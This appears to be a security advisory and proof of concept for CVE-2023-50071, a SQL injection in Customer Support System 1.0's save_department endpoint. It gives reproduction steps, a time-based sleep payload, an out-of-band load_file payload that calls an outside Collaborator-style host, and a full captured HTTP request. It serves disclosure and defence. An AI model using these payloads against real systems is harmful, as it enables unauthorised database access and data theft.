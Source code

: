 # CVE-2023-50071
# Customer Support System 1.0 - Multiple SQL injection vulnerabilities - save_department

**Description**: Multiple SQL injection vulnerabilities in /customer_support/ajax.php?action=save_department in Customer Support System 1.0 allow authenticated attackers to execute arbitrary SQL commands via id or name.

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcantara  
**Date**: 29/11/2023  
**CVE**: CVE-2023-50071  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2023-50071  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2023-50071  
**Tenable Link**: https://www.tenable.com/cve/CVE-2023-50071  
**Confirmed on**: 15/12/2023  
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Navigate to the page /customer_support/index.php?page=department_list.  
3- Create or edit a department and  insert a malicious payload into one of the following parameters: id or name.  
**Payloads**:  
id: (select load_file('\\\\c7kwr16trd54p693ve9xjbaao1usii67.oastify.com\\test'))  
name: '+(select*from(select(sleep(20)))a)+'  

```
POST /customer_support/ajax.php?action=save_department HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------279004446431847057031125356738
Content-Length: 444
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=department_list
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=mfd30tu0h0s43s7kdjb74fcu0l

-----------------------------279004446431847057031125356738
Content-Disposition: form-data; name="id"


-----------------------------279004446431847057031125356738
Content-Disposition: form-data; name="name"

test'+(select*from(select(sleep(20)))a)+'
-----------------------------279004446431847057031125356738
Content-Disposition: form-data; name="description"

Teste
-----------------------------279004446431847057031125356738--
```
Discoverer(s)/Credits:  
Geraldo Alcantara  
